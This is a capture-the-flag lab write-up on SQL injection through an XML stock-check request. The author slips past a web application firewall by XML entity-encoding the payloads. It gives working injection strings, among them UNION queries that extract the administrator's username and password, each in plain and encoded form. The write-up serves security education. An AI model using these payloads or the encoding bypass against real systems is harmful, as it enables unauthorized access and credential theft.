









# SQL injection with filter bypass via XML

Выберите язык / Choose your language:

- 🇷🇺 [Русский](WRITEUP.ru.md)  
- 🇬🇧 [English](WRITEUP.en.md)

## Disclaimer
---

**The text was written and translated by the author manually. A language model was used for formatting and stylistic editing.**

**This material is provided for educational and research purposes only. I do not encourage or call for unauthorized access to information systems or violation of the law. In my opinion, one of the most effective ways to combat cybercrime is to educate both everyday users and managers, as well as developers of digital products about common vulnerabilities that could potentially be exploited by malicious actors to carry out unlawful acts.**

**⚠️ All actions described in this document were performed within an authorized research environment (CTF/test platform), without violating the rights of third parties or current legislation.**

**Unauthorized interference with computer systems, violation of data storage and processing rules, and other forms of so-called "black-hat" hacking are contrary to law and the ethics of information security.**

**I adhere to the principles of ethical research and responsible vulnerability disclosure.**


## Target
---



The instance seems to be a shop application with goofy items in stock:



## Functionality
---

Every item has a `Check stock` button in it's details, outputing the quantity of items in stock across shops in different cities:


The `Check stock` function sends a request to the backend, containing XML:



```XML 
<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>
			13
		</productId>
		<storeId>
			1
		</storeID>
	</stockCheck>
```

That is the injection point!

## Exploitation
---

However, the Web Application Firewall will detect raw malitious input:



The application will still understand the encoded version of `storeId`, provided that it is valid. In this case, `storeId = 1` is treated the same as `storeId = &#49;`:



This means that it is to possible to pass XML-encoded payloads to exploit the SQL-injection vulnerability.

``` SQL
1' OR 1=1 -- 
```

Below is the XML-encoded version of the PoC SQL injection payload mentioned above:

``` XML
&#49;&#39;&#32;&#79;&#82;&#32;&#49;&#61;&#49;&#32;&#45;&#45;&#32;
```

This will dump all the product units in all the stores:



A `UNION`-based SQL injection approach is the best option, bearing in mind that the main objective of the lab is to log in as the `administrator` user.

This query will allow to verify how many collumns does the request return, and whether the `users` table is reachable (the number of `NULL` pads is 1 in this case):

``` SQL
1' UNION SELECT NULL FROM users -- 
```

XML-encoded:

``` XML

&#49;&#39;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#78;&#85;&#76;&#76;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#45;&#45;&#32;

```

It works!



Now, to extract the data from the `users` table:

``` SQL

1' UNION SELECT password FROM users WHERE username='administrator' -- 

```

XML-encoding:

``` XML

&#49;&#39;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#87;&#72;&#69;&#82;&#69;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#61;&#39;&#97;&#100;&#109;&#105;&#110;&#105;&#115;&#116;&#114;&#97;&#116;&#111;&#114;&#39;&#32;&#45;&#45;&#32;

```



To make it more clear, here is a payload which utillizes concatenation to extract both `username` and `password` entries of the table, divided by `\|/` as the delimeter:

``` SQL

1' UNION SELECT username || '\|/' || password FROM users WHERE username='administrator' -- 

```

XML-encoded:

``` XML

&#49;&#39;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#32;&#124;&#124;&#32;&#39;&#92;&#124;&#47;&#39;&#32;&#124;&#124;&#32;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#87;&#72;&#69;&#82;&#69;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#61;&#39;&#97;&#100;&#109;&#105;&#110;&#105;&#115;&#116;&#114;&#97;&#116;&#111;&#114;&#39;&#32;&#45;&#45;&#32;

```



The stolen credentials can now be used to log in as the `administrator` user, solving the lab:


Thank you for you attention! ^^